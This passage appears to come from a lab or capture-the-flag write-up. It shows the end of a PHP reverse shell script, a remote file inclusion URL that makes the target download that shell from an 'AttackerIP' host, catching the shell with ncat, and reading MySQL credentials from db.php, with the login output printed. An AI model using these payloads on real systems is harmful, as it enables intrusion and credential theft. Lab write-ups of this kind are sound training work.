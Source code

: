 ```
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

saved the above payload into a php file, then fire python http server with ncat listener.

![image](https://user-images.githubusercontent.com/87468669/211202400-73c6b457-8e44-48fb-adb0-58e61e817acb.png)

downloaded the php shell into the target `http://192.168.79.58/image.php?img=http://AttackerIP/shell.php`. check back our listener.

![image](https://user-images.githubusercontent.com/87468669/211202549-c81c44e8-6851-4836-98fc-8e5c201a67ba.png)

Bull's eye we got a reverse shell. now stabilize the shell and escalate privs.

![image](https://user-images.githubusercontent.com/87468669/211203174-9c524581-8ff9-4962-b716-59c29e5c3223.png)

navigated to the `/var/www/html` dir, i found a sus file db.php, reading th content, i saw it contains mysql creds. let's login mysql to see what we have.

```
bash-4.2$ mysql -u root -p                                                          
Enter password:       
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.20 MySQL Community Server - GPL
                                         
Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective     
owners.                                                                            

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
                                         
mysql> show dataabases;   
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'dataabases'
 at line 1                
mysql> show databases;                                                              
+--------------------+    
| Database           | 
+--------------------+
| SimplePHPGal       |     
| information_schema |                                                             
| mysql              |                                                             
| performance_schema |                                                             
| sys                |                                                             
+--------------------+                                                             
5 rows in set (0.00 sec)                                                           
```
